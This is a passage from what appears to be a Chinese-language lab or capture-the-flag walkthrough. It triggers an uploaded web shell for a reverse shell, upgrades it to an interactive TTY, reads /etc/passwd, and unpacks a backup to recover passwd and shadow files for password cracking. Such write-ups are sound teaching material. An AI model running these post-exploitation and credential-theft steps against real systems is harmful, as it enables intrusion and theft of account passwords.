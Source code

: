 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。访问shell.phtml反弹shell

```
http://192.168.7.213/assets/img/shell.phtml
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，先切换到交互式shell

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm``Ctrl+z快捷键``stty raw -echo;fg``reset`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

切换完成来找找敏感信息

```
cat /etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现scpuser用户可以登录，继续找

```
cd /var/backups  
ls -al
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

/var/backups目录下发现backup.tar.gz文件，解压看看内容

```
cp backup.tar.gz /tmp  
cd tmp  
tar -zxvf backup.tar.gx
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

解压完，查看下里面有什么文件

```
ls -al  
cd /etc  
ls -al
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现passwd和shadow文件，下载下来暴破密码
